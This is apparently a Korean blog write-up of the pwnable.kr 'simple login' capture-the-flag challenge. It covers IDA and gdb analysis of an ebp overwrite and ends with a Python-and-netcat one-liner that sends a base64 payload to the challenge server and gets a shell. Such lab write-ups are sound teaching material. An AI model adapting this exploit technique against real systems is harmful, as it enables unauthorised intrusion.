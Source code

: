 ```yaml
---
title: Pwnable KR - simple login
slug: pwnable-kr-simple-login
date: 2016-05-18 19:40:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR simple login](pwnable-kr-simple-login.png)

50점 문제

## 풀이

아이다로 열어서 main 함수를 보면

![main in IDA](main-in-ida.png)

Base64Decode 함수를 거쳐서 그 글자가 12글자를 넘지 않았을 때,
memcpy 함수와 auth 함수를 실행할 수 있다.

auth 함수를 보면

![auth in IDA](auth-in-ida.png)

위에 calc_md5 함수가 있고 f87cd601aa7fedca99018a8be88eda34가 있으니
base64decode과 calc_md5를 거친 문자열이 저 해쉬값과 같게 하면
문제가 풀릴 것 같다.

```sh
$ ./login
Authenticate : 1
hash : 9b8c895608d18294f61b60b8240d240d
$ ./login
Authenticate : 1
hash : cdf692a9f758d869b6c9aeb2d8b58934
$ ./login
Authenticate : 1
hash : 4ed12d9a2e855dec61a9abe23d16493a
$
```

낚일뻔

마지막으로 correct 함수를 보면

![correct in IDA](correct-in-ida.png)

offset input에 있는 값이 0xdeadbeef면 문제를 풀 수 있다.

```sh
$ ./login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 125277e0a9ca4432b398e73ee31e0a22
Segmentation fault
$
```

input의 크기가 12바이트여서 12바이트에 맞게
AAAABBBBCCCC를 인코드한 문자열을 입력하면 segmentation fault가 뜬다.

```x86asm
(gdb) r
Starting program: /root/Desktop/login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 2c840c4e550f24ed72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x08049424 in main ()
(gdb) i r
eax            0x0      0
ecx            0x32     50
edx            0x80da684        135112324
ebx            0x80481d0        134513104
esp            0xffffd450       0xffffd450
ebp            0x43434343       0x43434343
esi            0x0      0
edi            0x811b00c        135376908
eip            0x8049424        0x8049424 <main+279>
eflags         0x210297 [ CF PF AF SF IF RF ID ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

확인해보면 12바이트 중 마지막 4바이트의 값대로 ebp가 변조되어있다.
처음 4바이트 값은 0xdeadbeef로 놔둬야하고,
가운데 4바이트가 남게 되는데 여기에는 correct 함수의 주소를,
마지막 4바이트는 바로 가운데 4바이트가 있는 주소를 가리키도록 하면 된다.

12바이트가 있는 input의 주소는 0x0811eb40이고,
correct 함수의 주소는 0x0804925f다.

주의해야할 점이 가운데 4바이트의 주소가 0x0811eb44라고 해서,
ebp 값을 0x0811eb44로 변조하면 0x0811eb40이 가리키는 주소,
즉 자신이 있는 주소로 점프하게 된다.

```x86asm
(gdb) r
Starting program: /root/Desktop/login
Authenticate : 776t3l_SBAhE6xEI
hash : 2c840c4e550f243d72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x0811eb44 in input ()
(gdb)
```

이렇게 input 영역을 실행하려고 하다가 segmentation fault를 뿜는다.

풀이

```sh
(python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
```

```sh
$ (python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
Authenticate : hash : 00cb6656e633c565de02446c0b6a9601
Congratulation! you ar good
id
uid=1009(login) gid=1009(login) groups=1009(login)
```
